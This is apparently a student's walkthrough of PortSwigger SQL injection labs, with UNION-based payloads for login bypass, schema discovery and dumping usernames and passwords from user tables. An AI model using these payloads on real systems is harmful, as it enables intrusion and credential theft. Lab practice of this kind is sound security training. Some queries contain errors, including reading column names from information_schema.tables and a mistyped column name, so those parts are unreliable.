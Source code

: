 # Union Attacks (plus some basics)

Note: the final query is simply a guess of the general structure of what it looks like behind the scenes as we aren't given the source code for the actual queries.  I just found it helpful to visually see code highlighting for some of the query schenanigans that were taking place.

For these attacks I used BurpSuite proxy to intercept requests.  Simply load the lab, and before sending a request to a vulnerable part of the site, enable intercept.  Then when you see the body of the request, send it to repeater.  

## SQLi using WHERE
>This was was rather simple as it just invovled injecting a conditional into the query. 
>
>Don't forget to substitute spaces with '+' when making requests.
>
>Solution: `'+OR+1=1--`
>
>Final query: 
>``` SQL
>SELECT * FROM table WHERE category = ''+OR+1=1--'AND released = 1
>```
>



## SQLi basic application login subversion
>This was was also really easy as you could just comment out the logic related to password checking.
>
>Solution: `administrator'--`
>Final query: 
>```SQL
>                                       |    payload   |
>SELECT name FROM users WHERE username='administrator'--'AND [password checking logic here]
>```
>



## SQLi union to find # of cols
>We can subvert the application logic by selecting Null values from the columns of the table.  If we don't select a value from each column without a WHERE statement, the application will throw an error.  Therefore we can simply keep adding NULL values until the application stops throwing errors.  Note the query is slighlty different Oracle.  
>
>[Note this can also be done using ORDER BY but I found this easier]
>
>Solution: `+UNION+SELECT+NULL,NULL,NULL--`
>Final query:
>```SQL
>                                          |           payload           |
>SELECT thing FROM table WHERE category = '' UNION SELECT NULL,NULL,NULL--'[rest of query here]
>```
>



## SQL find column containing text
>We used NULL as the values as regardless of the data type of each column, given we selected from each there would be no error.  Now to find which ones are strings we can simply just test each column with a string instead of NULL.
>
>Solution: `+UNION+SELECT+'eee',NULL,NULL` ect ect ect
>



## SQL union to get data from other tables
>First step is to use the previous two methods to find out the number and type of each columns.  We find there are two columns that have strings.  Since we're given the fact that they are named `username` and `password`, we can simply query from both.  Checking for extra columns is useful given there were other columns that would have caused this attack to error.
>
>Solution: `'+UNION+SELECT+username,+password+FROM+users--`
>Final query:
>```SQL
>                                         |                  payload                  |
>SELECT * FROM products WHERE category = '' UNION SELECT username,password FROM users--'[rest of query here] 
>```
>



## SQL union multipile tables in single column
>Using the previous methods to determine the type and number of columns, we find one that has string values and another that is of another data type.  Therefore to exfiltrate both tables in only one column we must simply append the values of one table to the other.  It may be useful to check the version of SQL the site is running as different SQL flavors have differing sytax for string cocatination.
>
>Solution: `'UNION SELECT NULL,username||password FROM USERS--`
>Final query:
>```SQL
>                                         |                      payload                     |
>SELECT * FROM products WHERE category = '' UNION SELECT NULL, username||password FROM USERS--'[rest of query here]
>```
>



## SQL union select version on Oracle
>Given we are told that the version is Oracle for this database, we can simply union attatch the version at the end of the query.  Note the unique syntax of Oracle as it always requires a `FROM` and a table with every `SELECT` query so we must modify the payload to find the type and number of tables.  We can remedy this by using the `dual` table which is always present like so: `'>+UNION+SELECT+'eee','eee'+FROM+dual--`.  We can then request the banner from the `v$version` table which can be found on the [sql cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
>
>Solution: `'+UNION+SELECT+NULL,BANNER+FROM+v$version--`
>Final query:
>``` SQL
>                                         |                 payload                 |
>SELECT * FROM products WHERE category = '' UNION SELECT NULL,BANNER FROM v$version--'[rest of query here]
>```
>



## SQL union select version on non Oracle
>Repeat with the previous except you need to test for which version the database is in.  This one turns out to be MySQL.  Substitute accordingly sytax wise.
>
>NOTE: for MySQL you need a space after the double dash to properly comment or use a #.
>
>Solution: `'+UNION+SELECT+@@version,+NULL--+` 
>



## SQL union select database tables on non Oracle
>Note: in this lab, the randomized string after the users, password, and username will be different for your lab.
>
>Use previous methods to find out number and type of columns.  We find there are two string columns.  Most non Oracle SQL databases have a table named `information_schema.tables` which houses information about the tables in the database and within that have a column named `table_name` which houses names about the tables on the database.  We can use this to union the table names of the user info with the following payload: 
>`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`
>
>Full query:
>```SQL
>                                         |                            payload                          |
>SELECT * FROM products WHERE category = '' UNION SELECT table_name,NULL FROM information_schema.tables--'
>```
>
>Then after finding the user info table name, which is `users_jzmhvt`, we can query from the `information_schema.tables` to find details about the individual table using the following payload:
>`+UNION+SELECT+column_name,NULL+FROM+information_schema.tables+WHERE+table_name='users_jzmhvt'`
>
>Full query (payload too long for highlighting lol):
>```SQL
>SELECT * FROM products WHERE category = '' UNION SELECT column_name,NULL FROM information_schema.tables WHERE table_name='users_jzmhvt'--'
>```
>
>Finally we get the column names for username and password `password_rnlbda` & `username_noeqqv` and can directly request the information from the users table with the following payload:
>`+UNION+SELECT+username_noeqqv,password_rnlbda+FROM+users_jzmhvt--`
>and nab the password.
>
>Final query:
>```SQL
>                                         |                            payload                            |
>SELECT * FROM products WHERE category = '' UNION SELECT username_noeqqv,password_rnlba FROM users_jzmhvt--'
>```
>



## SQL union select database tables Oracle
>Repeat previous lab but with Oracle syntax.  Remember in Oracle instead of `information_schema.tables`, Oracle uses all_tables and instead of `table_name`, uses `all_tab_columns`.
>